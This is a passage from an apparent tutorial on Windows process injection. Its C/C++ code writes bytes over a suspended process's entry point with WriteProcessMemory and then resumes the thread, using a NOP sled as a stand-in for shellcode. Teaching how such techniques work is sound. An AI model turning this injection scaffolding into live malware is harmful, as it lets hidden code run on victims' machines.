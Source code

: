 ```cpp

 std::cout << "[4] EntryPoint is in 0x" << entryPointAddr << std::endl; 
```

### Overwrite the process code

Now that we have the entry point address of  the original code, we want to overwrite it with our shellcode. We can use the `WriteProcessMemory` function like this:

> In this example I’ll overwrite the process memory with NOP instructions instead of adding real shellcode.
{: .prompt-info}

```c
BYTE nopSled[460];
memset(nopSled, 0x90, sizeof(nopSled)); // Fill the array with NOP instructions

// 5 -- Write the NOP sled into the EntryPoint
SIZE_T bytesWritten = 0;
if (!WriteProcessMemory(
    pi.hProcess,
    entryPointAddr,
    nopSled,
    sizeof(nopSled),
    &bytesWritten))
{
    std::cerr << "Error writing to the process memory." << std::endl;
    return -1;
}

std::cout << "[5] NOP sled was written to the EntryPoint" << std::endl;
```

### Resume the Process

Now, everything is ready, so we can resume the thread and it will execute the shellcode. Once it ends, we close the handles that we used. 

```c
// 6 -- Resume the suspended process
std::cout << "Press Enter to exit and clean up..." << std::endl;
std::cin.get();
ResumeThread(pi.hThread);

std::cout << "[6] The process thread was resumed." << std::endl;

//Close the handlers
CloseHandle(pi.hProcess);
CloseHandle(pi.hThread);

return 0;

```
